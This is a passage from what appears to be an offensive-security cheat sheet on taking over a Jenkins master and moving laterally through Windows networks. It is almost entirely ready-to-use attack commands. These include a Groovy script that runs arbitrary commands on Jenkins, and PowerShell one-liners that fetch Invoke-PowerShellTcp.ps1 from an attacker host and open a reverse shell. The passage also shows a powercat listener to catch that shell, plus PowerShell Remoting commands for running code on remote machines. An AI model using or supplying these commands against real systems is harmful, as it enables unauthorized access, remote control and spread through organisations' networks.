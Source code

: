 - Execute a command on a Jenkins Master using Groovy scripts

```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '<INSERT COMMAND>'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $ sout err> $serr"
```

- Execute a command on a Jenkins Master using build configuration

```
powershell.exe iex (iwr http://<Attacker IP address>/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Power -Reverse -IPAddress <Attacker IP address> -Port <port>
OR
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://<Attacker IP address>/Invoke-PowerShellTcp.ps1')); Power -Reverse -IPAddress <Attacker IP address> -Port <port>
```

Set up a PowerCat listener (press Enter a few times to connect to reverse shells)

```
PS C:\> powercat -l -v -p <port> -t 100
```

Lateral Movement
-----------------------------------------

### PowerShell Remoting

- Enable PowerShell Remoting on current machine (needs admin access)

```
PS C:\> Enable-PSRemoting
```

- Start an interactive session with a remote computer using PowerShell remoting (needs admin access on the remote computer)

```
PS C:\> Enter-PSSession -ComputerName <computer name>
PS C:\> Enter-PSSession -ComputerName <computer name> -Credential <Domain>\<Username>        # Specify credentials
```

- Create a persistent connection to a local or remote computer using PowerShell remoting (needs admin access on the remote computer)

```
PS C:\> $sess = New-PSSession -ComputerName <computer name>
PS C:\> $sess
PS C:\> Enter-PSSession -Session $sess
```

- Execute commands or scriptblocks on a remote computer

```
PS C:\> Invoke-Command -ScriptBlock {whoami} -ComputerName <computer name>
PS C:\> Invoke-Command -ScriptBlock {Get-Process} -ComputerName (Get-Content <server-list.txt>)        # Run a command on multiple systems
PS C:\> Invoke-Command -ScriptBlock {whoami} -Session $sess        # Import a command into a session
```
